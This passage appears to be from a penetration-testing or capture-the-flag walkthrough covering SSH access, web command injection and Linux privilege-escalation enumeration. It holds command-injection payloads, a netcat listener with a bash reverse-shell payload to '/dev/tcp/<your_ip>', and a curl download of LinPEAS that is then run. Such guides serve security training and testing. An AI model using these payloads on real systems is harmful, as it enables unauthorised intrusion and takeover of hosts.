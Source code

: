 2. **Connect via SSH and execute the binary**:
   - Find credentials in the NFS share or web application
   - SSH to the target
   - Run the setuid binary

### Method 2: Exploiting Web Vulnerabilities

1. **Identify vulnerable parameters in web applications**
2. **Look for command injection opportunities**:
   - Test parameters that might execute system commands
   - Try payloads like `; id`, `| id`, etc.

3. **Gain reverse shell**:
   - Set up a netcat listener: `nc -lvnp 4444`
   - Send payload: `; bash -c 'bash -i >& /dev/tcp/<your_ip>/4444 0>&1'`

## Privilege Escalation

### Basic Enumeration

1. **Check current user privileges**:
   ```bash
   id
   sudo -l
   ```

2. **Automated enumeration**:
   ```bash
   # Download LinPEAS
   curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
   chmod +x linpeas.sh
   ./linpeas.sh
   ```

### Privilege Escalation Vectors

1. **Check for development tools with elevated permissions**:
   ```bash
   find / -perm -u=s -type f 2>/dev/null
   ```

2. **Look for insecure sudo configurations**:
   ```bash
   sudo -l
   ```

3. **Check for writeable cron jobs**:
   ```bash
   cat /etc/crontab
   ls -la /etc/cron*
   ```

4. **Check for insecure file permissions**:
   ```bash
   find / -writable -type f 2>/dev/null
   ```

